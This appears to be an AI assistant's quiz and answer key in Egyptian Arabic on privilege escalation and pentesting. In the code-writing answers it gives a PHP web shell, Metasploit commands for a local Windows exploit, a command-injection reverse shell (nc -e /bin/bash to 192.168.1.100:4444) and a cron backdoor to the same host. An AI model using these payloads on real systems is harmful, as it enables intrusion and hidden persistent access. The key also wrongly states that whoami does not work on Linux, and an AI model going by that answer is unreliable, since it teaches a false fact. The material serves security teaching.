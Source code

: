 إليك الأسئلة مع الإجابات مباشرة بعد كل سؤال، وفي جزء الخلاصة هيكون السؤال "قولي الخلاصة بتاعت الجزء":

---

### **أسئلة إكمال الفراغات**
1. تصعيد الصلاحيات في هجمات العالم الحقيقي بيحول هجوم بسيط لـ ______.  
   **كارثة كبيرة**

2. لو المهاجم وصل لصلاحيات root، بيقدر يزرع ______ عشان يطلب فدية.  
   **Ransomware**

3. أداة ______ بتساعدك تبحث عن ثغرات معروفة بناءً على إصدار النظام.  
   **Searchsploit**

4. في الـ Pentesting، لو لقيت ثغرة File Upload، ممكن ترفع ملف ______ عشان تاخد shell.  
   **PHP**

5. لو بقيت root في التصعيد العمودي، ممكن تستخرج بيانات من ملف زي ______.  
   **/etc/shadow**

---

### **أسئلة صح وغلط**
6. التصعيد الأفقي بيديك التحكم الكامل في النظام زي root. (صح/غلط)  
   **غلط** - بيديك وصول لمستخدمين تانيين بس مش التحكم الكامل.

7. هجمات زي WannaCry استخدمت تصعيد الصلاحيات عشان تنتشر. (صح/غلط)  
   **صح**

8. لو شغلت `whoami` في لينكس، هيرجعلك اسم المستخدم زي ويندوز. (صح/غلط)  
   **غلط** - في لينكس نستخدم `id`.

9. بدون تصعيد، المهاجم بيقدر يدمر النظام كله. (صح/غلط)  
   **غلط** - بيفضل محدود.

10. أداة Metasploit بتساعدك تاخد shell وتصعد صلاحيات في هجمات حقيقية. (صح/غلط)  
    **صح**

---

### **أسئلة اختيار من متعدد**
11. إيه الهدف الأساسي لتصعيد الصلاحيات في هجمات العالم الحقيقي؟  
    أ) سرقة بيانات بسيطة  
    ب) تحقيق أكبر ضرر أو ربح  
    ج) فتح الموقع بس  
    د) تغيير كلمة السر  
    **ب) تحقيق أكبر ضرر أو ربح**

12. إيه الأداة اللي بتستخدمها عشان تفحص الهدف في الـ Pentesting؟  
    أ) Metasploit  
    ب) Nmap  
    ج) Searchsploit  
    د) Burp Suite  
    **ب) Nmap**

13. إيه من اللي ممكن يحصل لو وصلت لـ root في هجوم حقيقي؟  
    أ) سرقة بيانات حساسة  
    ب) زرع Ransomware  
    ج) تدمير النظام  
    د) كل اللي فوق  
    **د) كل اللي فوق**

14. إيه الثغرة اللي ممكن تستغلها عشان تاخد shell من موقع ويب؟  
    أ) SQL Injection  
    ب) Command Injection  
    ج) Broken Access Control  
    د) Misconfiguration  
    **ب) Command Injection**

15. إيه الأمر اللي بيوريك إصدار النواة في لينكس عشان تبحث عن exploit؟  
    أ) id  
    ب) whoami  
    ج) uname -r  
    د) sudo -l  
    **ج) uname -r**

---

### **أسئلة "لماذا" لتفسير المفاهيم**
16. ليه تصعيد الصلاحيات مهم في هجمات العالم الحقيقي؟  
    **لأنه بيحول هجوم صغير لكارثة كبيرة بيسمح للمهاجم يتحكم في النظام ويعمل ضرر كبير.**

17. ليه المهاجم بيحتاج يصعد صلاحياته لو بدأ كمستخدم عادي؟  
    **عشان يكسر الحدود اللي عنده ويقدر يسرق بيانات أو يدمر النظام.**

18. ليه هجمات زي WannaCry اعتمدت على التصعيد؟  
    **عشان تنتشر وتدمر أنظمة كاملة بعد ما تستغل ثغرات للوصول لصلاحيات أعلى.**

19. ليه لازم تثبت التصعيد في الـ Pentesting؟  
    **عشان توضح للعميل خطورة الثغرة وإنها ممكن تدمر نظامه لو ما اتصلحتش.**

20. ليه زرع backdoor بيعتبر جزء من سيناريو واقعي بعد التصعيد؟  
    **عشان يخلي المهاجم يرجع للنظام في أي وقت من غير ما حد يكتشفه.**

---

### **أسئلة ربط المفاهيم ببعضها**
21. إزاي تربط بين ثغرة File Upload وتصعيد الصلاحيات في هجمات حقيقية؟  
    **بترفع ملف PHP يشغل أوامر زي `whoami` وتبدأ منه رحلة التصعيد.**

22. إيه العلاقة بين أمر `sudo -l` والتصعيد العمودي؟  
    **بتشوف الأوامر اللي تقدر تشغلها كـ root وتستغلها عشان تبقى أدمن.**

23. إزاي تستخدم Nmap مع Command Injection في الـ Pentesting؟  
    **Nmap بيكشف الخدمات المفتوحة، وCommand Injection بيستغلها عشان تاخد shell.**

24. إزاي التصعيد الأفقي بيساعدك في الوصول للتصعيد العمودي؟  
    **بتجمع بيانات زي كلمات سر من مستخدمين تانيين تستخدمها للوصول لصلاحيات أعلى.**

25. إيه الرابط بين استغلال Kernel Exploit وتأثير التصعيد في سيناريوهات حقيقية؟  
    **Kernel Exploit بيخليك root، وده بيسمحلك تدمر النظام أو تزرع برمجيات خبيثة.**

---

### **أسئلة للفهم**
26. اشرح بكلماتك ليه التصعيد بيحول هجوم بسيط لكارثة؟  
    **لأنه بيخلي المهاجم يتحكم في كل حاجة بدل ما يفضل محدود في حاجات صغيرة.**

27. إزاي ممكن تستخدم ثغرة Command Injection عشان تاخد shell في هجوم حقيقي؟  
    **بتكتب أمر زي `nc -e /bin/bash` في الثغرة وتستقبل الـ shell على جهازك.**

28. إيه اللي بيحصل لو نجحت في استغلال سوء إعدادات بـ `sudo -l`؟  
    **بتلاقي أوامر تقدر تشغلها كـ root وتبقى أدمن النظام.**

29. إزاي التصعيد بيساعد في التجسس طويل الأمد؟  
    **بيخليك تزرع backdoor وتفضل جوا النظام من غير ما حد يكتشفك.**

30. اشرح خطوة عملية تستخدم فيها Nmap وMetasploit مع بعض في الـ Pentesting؟  
    **بتفحص الهدف بـ Nmap عشان تعرف الخدمات، وبعدين تستخدم Metasploit عشان تستغل ثغرة وتاخد shell.**

---

### **أسئلة كتابة كود**
31. اكتب أمر في لينكس يوريك هوية المستخدم الحالي.  
    **id**

32. اكتب كود PHP بسيط ترفعه في ثغرة File Upload عشان تشغل أوامر.  
    **<?php system($_GET['cmd']); ?>**

33. اكتب أوامر Metasploit عشان تستغل ثغرة محلية في ويندوز (حدد SESSION بس).  
    **msfconsole  
    use exploit/windows/local/ms10_015_kitrap0d  
    set SESSION 1  
    exploit**

34. اكتب أمر Command Injection عشان تربط shell لجهازك على منفذ 4444.  
    **http://target.com/ping?ip=127.0.0.1; nc -e /bin/bash 192.168.1.100 4444**

35. اكتب أمر في الـ shell عشان تزرع backdoor في نظام لينكس.  
    **echo 'nc -e /bin/bash 192.168.1.100 9999' > /etc/cron.d/backdoor**

---

### **أسئلة الخلاصة**
36. قولي الخلاصة بتاعت الجزء الأول ("ليه Privilege Escalation مهم في هجمات العالم الحقيقي؟").  
    **"يعني التصعيد زي ما تكون داخل بيت كضيف، بس لو لقيت السلم السري وطلعت لأوضة صاحب البيت، بقيت أنت الكبير! في الهجمات الحقيقية، من غير التصعيد ده هتفضل تلعب في الصغير وماتعملش حاجة كبيرة."**

37. قولي الخلاصة بتاعت الجزء التاني ("تأثيره في سيناريوهات حقيقية").  
    **"في الدنيا الحقيقية، التصعيد ده زي ما تكون لقيت كنز في لعبة، لو مسكته بقيت اللي بيحرك الكل! من غيره، المهاجم هيفضل واقف مكانه زي الجزمة، لكن لما يصعد، يبقى هو الباشا ويعمل اللي عايزه."**

38. قولي الخلاصة بتاعت الجزء التالت ("ليه الموضوع ده حاسم؟").  
    **"التصعيد ده اللي بيفرق بين واحد بيلعب ع المصغر وواحد بيحرك العرباية الكبيرة! من غيره، المهاجم زي الكتكوت، لكن لما يصعد، يبقى الأسد بتاع الغابة."**

39. قولي الخلاصة بتاعت الجزء الرابع ("خطوات عملية للاستغلال في Pentesting").  
    **"الخطوات دي زي ما تكون بتلعب لعبة حرب: بدأت جندي صغير، لقيت سلاح، كبرت، وفي الآخر بقيت القائد بتاع المعركة! التصعيد هو اللي هيخليك تكسب الماتش."**

40. قولي الخلاصة النهائية بتاعت النص كله.  
    **"Privilege Escalation في العالم الحقيقي هو اللي بيحول هجوم عادي لكابوس كبير. بدون ما تصعد، هتفضل تلعب في الزاوية، لكن لما توصل للأعلى، بتبقى أنت اللي بتحرك اللعبة كلها. في الـ Pentesting، استخدم أدوات زي Nmap، Metasploit، وثغرات الويب عشان تثبت للعميل إنك مش بس بتفتح الباب، لكن ممكن تاخد البيت كله لو عايز!"**

---

كده الأسئلة مغطية النص كامل، والخلاصات مكتوبة زي ما طلبت. لو عايز أي حاجة زيادة أو تعديل، قول لي!